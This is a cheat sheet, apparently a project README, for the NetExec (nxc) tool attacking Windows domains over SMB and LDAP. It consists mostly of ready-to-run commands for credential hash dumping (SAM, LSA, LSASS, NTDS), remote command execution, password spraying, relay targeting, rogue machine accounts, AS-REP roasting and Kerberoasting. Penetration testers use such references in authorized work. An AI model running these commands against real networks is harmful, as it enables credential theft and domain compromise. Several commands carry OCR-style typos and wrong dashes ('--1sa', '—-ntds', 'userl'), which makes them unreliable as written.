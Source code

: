 # NetExec

## About

NetExec (a.k.a nxc) is a network service exploitation tool that helps automate assessing the security of _large_ networks. Usable for multiple protocols, such as smb, ssh, ldap, ftp, wmi, winrm, rdp, vnc, mssql, and nfs.

### Links

[Github](https://github.com/Pennyw0rth/NetExec)

[Github Download](https://github.com/Pennyw0rth/NetExec/releases/)

[WIki](https://www.netexec.wiki/)

## Usage

Logging

```
nxc PROTOCOL IP -u 'USER' -p 'PASSWORD' --log
```

### SMB

General host info

```
nxc smb targets.txt
```

Enumerate Users

```
nxc smb IP -u USER -p 'PASSWORD' --users
nxc smb IP -u USER -p 'PASSWORD' --users-export users.txt
```

See what AV/EDR is running

```
nxc smb IP -u USER -p 'PASSWORD' -M enum_av
```

Generate a list of relayable hosts (SMB Signing disabled)

```
nxc smb up-hosts.txt --gen-relay-list relay.txt
```

Enumerate shares

```
nxc smb ip -u 'USER' -p 'PASSWORD' --shares
```

Dumping hashes

```
nxc smb IP -u username -p password --sam
nxc smb IP -u username -p password --1sa
nxc smb IP -u username -p password -M lsassy
nxc smb IP -u username -p password --dpapi
nxc smb IP -u username -p password --ntds
nxc smb IP -u username -p password —-ntds —user Administrator
```

Pass cmd

```
nxc smb ip -u 'USER' -p <passwordt> -x 'command'
```

Pass powershell

```
nxc smb ip -u 'USER' -p 'PASSWORD' -X 'command'
```

Look at domain admins

```
nxc smb ip -u 'USER' -p 'PASSWORD' -x 'net group "Domain Admins" /domain'
```

Look at logged on users

```
nxc smb ip -u 'USER' -p 'PASSWORD' --loggedon-users
```

View password policy

```
nxc smb dc-ip -u 'USER' -p 'password' --pass-pol
```

Enumerate SMB Shares testing for anonymous access

```
nxc smb targets.txt --shares --no-bruteforce
```

Perform a password spray

```
nxc smb IP -u users.txt -p 'Password123!' --continue-on-success
nxc smb IP -u users.txt -p passwords. txt --continue-on-success
nxc smb IP -u userl user2 user3 -p Summer18
nxc smb IP -u userl -p passwordl password2 password3
nxc smb IP -u user.txt -p user.txt —no-bruteforce --continue-on-success
nxc smb IP -u user.txt -p password.txt —-no-bruteforce —-continue-on-success
nxc smb IP -u user.txt -p password.txt —-no-bruteforce —-continue-on-success -d DELAY-#-IN-MINUTES
```

### LDAP

Check for misconfigured Delegation

```
nxc ldap IP -u username -p password --find-delegation
```

Machine Account Quota - Created rogue machine account for escalation

```
nxc ldap IP -u username -p password -M maq
```

Enumerate Users/Groups

```
nxc ldap IP -u username -p password --users
nxc ldap IP -u username -p password --active-users
nxc ldap IP -u username -p password --groups
nxc ldap IP -u username -p password --groups 'Domain Admins'
```

Test if an Account Exists without Kerberos. When using the option `-k` or `–use-kcache`, you need to specify the same hostname (FQDN) as the one from the kerberos ticket

```
nxc ldap <ldap-server> -u "'USER'.txt" -p '' -k
```

Test credentials

```
nxc ldap <ldap-server> -u 'USER' -p 'PASSWORD'
```

With valid creds, Enumerate users

```
nxc ldap <ldap-server> -u 'USER' -p 'PASSWORD' –-users
```

ASREPRoasting exploits accounts that do not require Kerberos pre-authentication to extract service ticket hashes, which can then be cracked offline.

```
nxc ldap <ldap-server> -u 'USER' -p '' --asreproast <output.txt>
```

With a list of users

```
nxc ldap <ldap-server> -u users.txt -p '' --asreproast output.txt
```

Kerberoasting extracts service account hashes by requesting service tickets for accounts with SPNs (Service Principal Names).

```
nxc ldap <ldap-server> -u 'USER' -p 'PASSWORD' --kerberoasting hash.txt
```

BloodHound ingestor is used to collect data for use in BloodHound, a tool for mapping AD attack paths.

```
nxc ldap <ldap-server> -u 'USER' -p 'PASSWORD' --bloodhound --collection All --dns-server <ldap-server>
```
